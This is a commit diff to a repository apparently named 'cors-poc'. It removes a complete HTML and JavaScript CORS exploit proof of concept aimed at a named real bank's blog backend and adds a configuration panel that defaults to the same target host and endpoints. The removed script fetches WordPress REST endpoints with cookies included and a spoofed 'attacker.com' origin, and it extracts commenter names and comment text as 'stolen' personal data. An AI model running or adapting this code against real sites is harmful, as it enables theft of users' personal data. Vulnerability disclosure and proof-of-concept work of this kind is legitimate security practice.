

Before and after one commit to ragaboolla/cors-poc, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Implement configuration panel for exploit settings
Added a configuration panel for user-defined target domains and endpoints.

```diff
--- a/index.html
+++ b/index.html
@@ -1,193 +1,27 @@
-<!DOCTYPE html>
-<html lang="en">
-<head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Nubank Security Test - CORS Vulnerability</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            max-width: 1200px;
-            margin: 0 auto;
-            padding: 20px;
-            background: #0a0a0a;
-            color: #00ff00;
-        }
-        .container {
-            background: #111;
-            padding: 20px;
-            border-radius: 10px;
-            border: 1px solid #00ff00;
-        }
-        h1 {
-            color: #00ff00;
-            text-align: center;
-        }
-        .target {
-            background: #222;
-            padding: 15px;
-            margin: 10px 0;
-            border-radius: 5px;
-        }
-        .success {
-            color: #00ff00;
-        }
-        .error {
-            color: #ff0000;
-        }
-        pre {
-            background: #000;
-            padding: 10px;
-            border-radius: 5px;
-            overflow-x: auto;
-            max-height: 300px;
-            overflow-y: auto;
-        }
-        button {
-            background: #00ff00;
-            color: #000;
-            border: none;
-            padding: 10px 20px;
-            border-radius: 5px;
-            cursor: pointer;
-            font-weight: bold;
-        }
-        button:hover {
-            background: #00cc00;
-        }
-    </style>
-</head>
-<body>
-    <div class="container">
-        <h1>🔓 Nubank CORS Vulnerability Exploit POC</h1>
-        <p>This demonstrates how an attacker can steal user data through CORS misconfiguration</p>
 
-        <button onclick="runExploit()">🚀 Start Exploit</button>
-        <button onclick="clearResults()">🗑️ Clear Results</button>
+<!-- Configuration Panel -->
+<div class="config-panel" style="background: #222; padding: 20px; margin: 20px 0; border-radius: 10px; border: 1px solid #00ff00;">
+    <h3>⚙️ Configuration</h3>
 
-        <div id="results"></div>
+    <div style="margin: 10px 0;">
+        <label style="display: block; margin-bottom: 5px;">Target Domain:</label>
+        <input type="text" id="targetDomain"
+               style="width: 100%; padding: 8px; background: #000; color: #00ff00; border: 1px solid #00ff00; border-radius: 5px;"
+               placeholder="https://example.com"
+               value="https://backend.blog.nubank.com.br">
     </div>
 
-    <script>
-    // قائمة الـ endpoints المتأثرة
-    const nubankEndpoints = [
-        {
-            name: "User Comments (PII Exposure)",
-            url: "https://backend.blog.nubank.com.br/wp-json/wp/v2/comments",
-            sensitive: true
-        },
-        {
-            name: "Pages Data",
-            url: "https://backend.blog.nubank.com.br/wp-json/wp/v2/pages",
-            sensitive: false
-        },
-        {
-            name: "Categories",
-            url: "https://backend.blog.nubank.com.br/wp-json/wp/v2/get-cat-home",
-            sensitive: false
-        }
-    ];
+    <div style="margin: 10px 0;">
+        <label style="display: block; margin-bottom: 5px;">Endpoints (JSON):</label>
+        <textarea id="endpointsConfig"
+                  style="width: 100%; padding: 8px; background: #000; color: #00ff00; border: 1px solid #00ff00; border-radius: 5px; font-family: monospace;"
+                  rows="6">[
+    {"name": "User Comments (PII Exposure)", "url": "/wp-json/wp/v2/comments", "sensitive": true},
+    {"name": "Pages Data", "url": "/wp-json/wp/v2/pages", "sensitive": false},
+    {"name": "Categories", "url": "/wp-json/wp/v2/get-cat-home", "sensitive": false}
+]</textarea>
+    </div>
 
-    async function runExploit() {
-        const resultsDiv = document.getElementById('results');
-        resultsDiv.innerHTML = '<h3>🎯 Starting Exploitation...</h3>';
-
-        let totalStolenData = 0;
-
-        for (const endpoint of nubankEndpoints) {
-            const targetDiv = document.createElement('div');
-            targetDiv.className = 'target';
-            targetDiv.innerHTML = `<h4>🔍 Testing: ${endpoint.name}</h4>`;
-            resultsDiv.appendChild(targetDiv);
-
-            try {
-                // إرسال طلب cross-origin
-                const response = await fetch(endpoint.url, {
-                    method: 'GET',
-                    credentials: 'include', // إرسال cookies
-                    headers: {
-                        'Accept': 'application/json',
-                        'Origin': 'https://attacker.com'
-                    }
-                });
-
-                if (!response.ok) {
-                    throw new Error(`HTTP ${response.status}`);
-                }
-
-                const data = await response.json();
-
-                // تحليل البيانات المسروقة
-                let stolenItems = 0;
-                let userData = [];
-
-                if (endpoint.sensitive && endpoint.name.includes("Comments")) {
-                    userData = data.map(comment => ({
-                        user: comment.author_name,
-                        comment: comment.content.rendered.replace(/<[^>]*>/g, ''),
-                        date: comment.date,
-                        post: comment.post
-                    }));
-                    stolenItems = userData.length;
-                    totalStolenData += stolenItems;
-                } else {
-                    stolenItems = Array.isArray(data) ? data.length : 1;
-                }
-
-                // عرض النتائج
-                targetDiv.innerHTML += `
-                    <p class="success">✅ EXPLOIT SUCCESSFUL</p>
-                    <p><strong>Stolen Items:</strong> ${stolenItems}</p>
-                    <p><strong>Endpoint:</strong> ${endpoint.url}</p>
-                    ${endpoint.sensitive ? `<p class="success">⚠️ PII DATA EXPOSED</p>` : ''}
-                    <details>
-                        <summary>View Stolen Data</summary>
-                        <pre>${JSON.stringify(endpoint.sensitive ? userData : data, null, 2)}</pre>
-                    </details>
-                `;
-
-                // تسجيل في console علشان الأدلة
-                console.log(`🎯 STOLEN from ${endpoint.name}:`, userData.length > 0 ? userData : data);
-
-            } catch (error) {
-                targetDiv.innerHTML += `
-                    <p class="error">❌ EXPLOIT FAILED: ${error.message}</p>
-                    <p><strong>Endpoint:</strong> ${endpoint.url}</p>
-                `;
-                console.error(`❌ Failed to exploit ${endpoint.name}:`, error);
-            }
-        }
-
-        // عرض ملخص نهائي
-        const summaryDiv = document.createElement('div');
-        summaryDiv.className = 'target';
-        summaryDiv.style.background = totalStolenData > 0 ? '#330000' : '#003300';
-        summaryDiv.innerHTML = `
-            <h3>📊 EXPLOIT SUMMARY</h3>
-            <p class="${totalStolenData > 0 ? 'error' : 'success'}">
-                ${totalStolenData > 0 ? '🚨 CRITICAL: ' : '✅ '}
-                Total PII Records Stolen: <strong>${totalStolenData}</strong>
-            </p>
-            <p><strong>Impact:</strong> ${totalStolenData > 0 ?
-                'User PII can be stolen by any malicious website' :
-                'Configuration issue detected'}</p>
-        `;
-        resultsDiv.appendChild(summaryDiv);
-
-        // تنبيه للمستخدم
-        if (totalStolenData > 0) {
-            setTimeout(() => {
-                alert(`🚨 SECURITY ALERT: ${totalStolenData} user records can be stolen via CORS!`);
-            }, 1000);
-        }
-    }
-
-    function clearResults() {
-        document.getElementById('results').innerHTML = '';
-    }
-
-    // تشغيل تلقائي عند فتح الصفحة (اختياري)
-    // setTimeout(runExploit, 2000);
-    </script>
-</body>
-</html>
+    <button onclick="loadConfig()" style="background: #00ff00; color: #000; border: none; padding: 10px 20px; border-radius: 5px; cursor: pointer; margin: 5px;">🔄 Load Configuration</button>
+    <button onclick="resetConfig()" style="background: #ff4444; color: #fff; border: none; padding: 10px 20px; border-radius: 5px; cursor: pointer; margin: 5px;">🔄 Reset to Default</button>
+</div>
```
